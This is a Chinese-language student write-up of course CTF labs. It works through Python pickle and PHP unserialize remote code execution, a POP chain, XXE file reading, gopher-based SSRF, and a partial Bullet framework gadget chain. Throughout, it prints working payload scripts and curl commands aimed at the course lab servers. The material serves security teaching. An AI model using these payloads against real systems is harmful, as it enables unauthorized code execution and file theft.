

# 2022 交大程式安全 HW11 writeup

## [LAB] Pickle
題目如下

提供的 source code

進入首頁的時候，如果沒有設定 cookie 的話會回傳登入頁面\
如果有設定 cookie 的話就會做 base64 decode 然後反序列化，並印出反序列化後的內容\
於是這邊可以利用 ```__reduce__``` 這個 magic method\
當被反序列化的時候會自動觸發 ```__reduce__``` function ，藉由 system 執行指令
```python
# sample.py
import pickle
from os import system

class exp:
    def __reduce__(self):
        return (system, ('ls',))

serialized = pickle.dumps({'name': exp(), 'age': 1})
print(pickle.loads(serialized))
```

因此這題只要送一個含有 cookie 的 request\
session 值為上述含有 ```__reduce__``` 的 class 被序列化後再經過 base64 encode 的值即可\
由於要把 ls 的輸出放在 key 為 'name' 的 value 裡，而 system 不會回傳輸出結果\
check_output 會回傳輸出結果，所以改為使用 check_output\
撰寫腳本，用 curl 送 request，並將 session 值設為序列化後再經過 base64 encode 的值
```python
import pickle
from subprocess import check_output
from base64 import b64encode
from os import popen

class exp:
    def __reduce__(self):
        return (check_output, (['ls', '/'],))

session = b64encode(pickle.dumps({'name': exp(), 'age': 1}))
output = popen("curl http://h4ck3r.quest:8600/ --cookie 'session=" \
+ session.decode() + "'").read()
print(output.replace('\\n', '\n'))
```

得知 flag 檔案為根目錄中的 flag_5fb2acebf1d0c558 檔案
```python
import pickle
from subprocess import check_output
from base64 import b64encode
from os import popen

class exp:
    def __reduce__(self):
        return (check_output, (['cat', '/flag_5fb2acebf1d0c558'],))

session = b64encode(pickle.dumps({'name': exp(), 'age': 1}))
output = popen("curl http://h4ck3r.quest:8600/ --cookie 'session=" \
+ session.decode() + "'").read()
print(output)
```

成功得出 flag 為 ```FLAG{p1ckle_r1ck}```
## [LAB] Baby Cat
題目如下

提供的 source code

如果有設定 cookie，會把 cat_session 值做 base64 decode 然後反序列化，並印出反序列化後的內容\
而這題跟上一題一樣，只是變為 php 的版本，magic method 變為 ```__wakeup__``` 而已\
當被反序列化時，會觸發 ```__wakeup__``` 自動執行，且這邊可透過 ```$this->name``` 進行 command injection\
將字串值設為 ```';ls /'```，也就是用 ```';``` 閉合左側指令，用 ```'``` 閉合右邊的單引號\
中間放 ```ls /``` 指令，ls 出根目錄有哪些檔案和資料夾\
接著將序列化後的結果做 base64 encode，放進 cookie 裡用 curl 送 request
```php
<?php
    class Cat
    {
        public $name = '(guest cat)';
        function __construct($name)
        {
            $this->name = $name;
        }
        function __wakeup()
        {
            echo "<pre>";
            system("cowsay 'Welcome back, $this->name'");
            echo "</pre>";
        }
    }
    $cat_session = base64_encode(serialize(new Cat("';ls /'")));
    system("curl http://h4ck3r.quest:8601/ --cookie 'cat_session=".$cat_session."'");
?>
```
得知 flag 檔案為根目錄中的 flag_5fb2acebf1d0c558 檔案

最後將 inject 的 command 改為 ```cat /flag_5fb2acebf1d0c558```，印出 flag
```php
<?php
    class Cat
    {
        public $name = '(guest cat)';
        function __construct($name)
        {
            $this->name = $name;
        }
        function __wakeup()
        {
            echo "<pre>";
            system("cowsay 'Welcome back, $this->name'");
            echo "</pre>";
        }
    }
    $cat_session = base64_encode(serialize(new Cat("';cat /flag_5fb2acebf1d0c558'")));
    system("curl http://h4ck3r.quest:8601/ --cookie 'cat_session=".$cat_session."'")
?>
```

成功得出 flag 為 ```FLAG{d3serializable_c4t}```
## [LAB] Magic Cat
題目如下

提供的 source code

這題很明顯是在考 php 的 POP chain\
只要把 ```$this->magic = new Magic();``` 改為 ```$this->magic = new Caster();```
以及把 ```public $cast_func = 'intval';``` 改為 ```public $cast_func = 'system';```
被反序列化的時候自動呼叫 ```__wakeup``` 時就會變為執行 Caster 的 cast_func\
於是解法跟上一題幾乎一樣，然後把 ```$this->spell``` 的值設為要執行的指令 ```ls /``` 印出根目錄的檔案
```php
<?php
    class Caster
    {
        public $cast_func = 'system';
        function cast($val)
        {
            return ($this->cast_func)($val);
        }
    }
    class Cat
    {
        public $magic;
        public $spell;
        function __construct()
        {
            $this->magic = new Caster();
            $this->spell = 'ls /';
        }
        function __wakeup()
        {
            echo "Cat Wakeup!\n";
            $this->magic->cast($this->spell);
        }
    }
    $cat = base64_encode(serialize(new Cat()));
    system("curl http://h4ck3r.quest:8602/ --cookie 'cat=".$cat."'");
?>
```

得知 flag 檔案為根目錄中的 flag_23907376917516c8 檔案\
最後將 ```$this->spell``` 改為 ```cat /flag_23907376917516c8```，印出 flag
```php
<?php
    class Caster
    {
        public $cast_func = 'system';
        function cast($val)
        {
            return ($this->cast_func)($val);
        }
    }
    class Cat
    {
        public $magic;
        public $spell;
        function __construct()
        {
            $this->magic = new Caster();
            $this->spell = 'cat /flag_23907376917516c8';
        }
        function __wakeup()
        {
            echo "Cat Wakeup!\n";
            $this->magic->cast($this->spell);
        }
    }
    $cat = base64_encode(serialize(new Cat()));
    system("curl http://h4ck3r.quest:8602/ --cookie 'cat=".$cat."'");
?>
```

成功得出 flag 為 ```FLAG{magic_cat_pwnpwn}```
## [LAB] XXE
題目如下

這題明顯是在考 XXE，看完 source code 後\
就可知道送 request 的時候要傳 xml 檔，讓它 load xml 檔的內容\
而 xml 檔的內容會定義外部實體，透過外部實體就能讀取特定檔案內容，最後印出 ```$user``` 的內容\
於是將以下內容放進 payload.xml 檔案裡
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///flag"> ]>
<test>
<user>&xxe;</user>
</test>
```
題目有提示說 flag 檔案路徑為 /flag\
由於定義了外部實體，這邊就可透過 ```&xxe``` 來讀取 /flag 的內容\
而 ```$creds->user``` 就會是 /flag 的檔案內容\
最後用 curl 發送 request 傳送 payload.xml 檔案

```sh
curl http://h4ck3r.quest:8604 -d @payload.xml
 ```

成功得出 flag 為 ```FLAG{xxxeeeeeee}```

## [LAB] Preview Card
題目如下

Web Preview 的部分，是個可以預覽網站內容的功能

Flag (localhost only) 的部分

預覽功能的方式是 server 端會幫使用者發送 request，然後將網站內容回傳\
因此可以利用 SSRF 的漏洞，送一些特殊的 request 來拿到我們想拿的東西，例如 localhost\

前面的 flag.php 有說到僅限 localhost user，於是用 file protocol 看看能不能拿到檔案內容

絕對路徑的部分，由於可以從網站錯誤頁面得知是 Apache server，所以猜測網站根目錄在 /var/www/html/

從回傳的內容可以知道必須要送 post request 且帶有 givemeflag 參數\
因此可以用上課投影片裡的 gopher protocol 來構造 post request


不過要先知道 HTTP post request 的 header 要塞什麼內容\
首先用 netcat 的 nc 指令在 localhost 上監聽 port 80
```sh
nc -l -p 80
 ```

然後用 curl 送我們想送的 post request
```sh
curl http://127.0.0.1:80/flag.php --request POST -d 'givemeflag=yes'
```

此時 nc 這邊就會顯示出送過來的 request header 內容

```http
POST /flag.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 14
Content-Type: application/x-www-form-urlencoded

givemeflag=yes
```
將 header 內容做 url encoding，且開頭要記得要填 1 個 byte\
空格換成 %20，而換行是 \r\n，要換成 %0d%0a\
參考資料：https://www.w3schools.com/tags/ref_urlencode.ASP

```http
_POST%20/flag.php%20HTTP/1.1%0d%0a
Host:%20127.0.0.1%0d%0a
User-Agent:%20curl/7.64.1%0d%0a
Accept:%20*/*%0d%0a
Content-Length:%2014%0d%0a
Content-Type:%20application/x-www-form-urlencoded%0d%0a
%0d%0a
givemeflag=yes
```
並且將內容弄成一行接在 gopher://127.0.0.1:80/ 後面

最後送出 request

網站回傳的結果

成功利用了 gopher protocol 構造以下的 post request
```sh
curl http://127.0.0.1:80/flag.php --request POST -d 'givemeflag=yes'
```
成功得出 flag 為 ```FLAG{gopher://http_post}```
## [HW] HugeURL
題目如下，是個可以讓網址加長的功能

按 Redirect 可以跳轉至輸入的網址

題目在 ./flag/flag 裡給的提示是 SSRF、deserialize、RCE\
由於可以輸入網址，所以可以用 gopher 之類的方式塞 payload 以達成 SSRF\
至於 deserialize 的部分，查看 source code 會發現他有使用 redis
```php
function redis()
{
    $redis = new Redis();
    $redis->connect('redis', 6379);
    $redis->setOption(Redis::OPT_SERIALIZER, Redis::SERIALIZER_PHP);
    return $redis;
}
```
查了一下資料後，發現這行代表設定成預設會進行 serialize 和 unserialize
```php
$redis->setOption(Redis::OPT_SERIALIZER, Redis::SERIALIZER_PHP);
```
(參考資料：https://www.daixiaorui.com/manual/redis-setOption.html)\
再加上 source code 裡面有很多 redis()->get 和 redis()->set，猜測這邊可以拿來利用

而 index.php 裡面，有一個被引入的東西 Bullet
```php
require __DIR__ . '/../vendor/autoload.php';
require __DIR__ . '/inc.php';

$app = new Bullet\App(['template' => [
    'path' => __DIR__ . '/templates/'
]]);
```
由於題目給的 source code 裡的其他部分沒有出現 Bullet 的定義\
如果想要查看被引入的東西有什麼的話，可以使用一招，用題目給的 Dockerfile 去 build 題目的 docker container 環境\
container 跑起來後，attach 到 vscode 裡，如此一來就能用 vscode 查看整個環境裡隱藏起來的 soruce code


查看 /var/www/vendor/vlucas/bulletphp/src/Bullet/App.php\
可以發現裡面有一個 magic method 叫做 __call，當呼叫不存在的 function 時， __call 就會被呼叫

於是就想到一個方式可以利用 App 這個 class
```php
<?php
class App //extends Container
{
    ...
    public function __construct(array $values = array())
    {
        /* 註解掉
        ...
        */
    }
    ...
    public function addMethod($method, $callback)
    {
        if(!is_callable($callback)) {
            throw new \InvalidArgumentException("Second argument is expected 
            to be a valid callback or closure.");
        }
        if(method_exists($this, $method)) {
            throw new \InvalidArgumentException("Method '" . $method . 
            "' already exists on " . __CLASS__);
        }
        $this->_callbacks['custom'][$method] = $callback;
    }
    ...
    public function __call($method, $args)
    {
        if(isset($this->_callbacks['custom'][$method]) && 
        is_callable($this->_callbacks['custom'][$method])) {
            $callback = $this->_callbacks['custom'][$method];
            return call_user_func_array($callback, $args);
        } else {
            throw new \BadMethodCallException("Method '" . __CLASS__ . 
            "::" . $method . "' not found");
        }
    }
    ...
    /**
     * Prevent PHP from trying to serialize cached object instances
     */
    /* 註解掉 __sleep，否則 unserialize 的時候會不正常
    public function __sleep()
    {
        return array();
    }*/
    ...
}
class exploit
{
    public $obj, $command;
    function __construct()
    {
        $this->obj = new App();
        $this->obj->addMethod('cast', 'system');
        $this->command = 'ls';
    }
    function __wakeup()
    {
        $this->obj->cast($this->command);
    }
}
$exp = new exploit();
$serialized = serialize($exp);
unserialize($serialized);
```
(完整的腳本內容放在 ```exploit.php```)\
跑起來就會成功 ls

不過想要使用這方式的前提是，要有類似的東西可以利用，並且要能插入 command 到參數裡\
嘗試找了其他 magic method 看能不能利用，但是找了很久還是找不到類似的東西可以用

另外，查看根目錄中 flag 檔案的權限，會發現只有 root 能讀\
所以應該也不能 cat flag 之類的，必須要執行 readflag 才能讀到它的內容\

這題只解到這邊而已
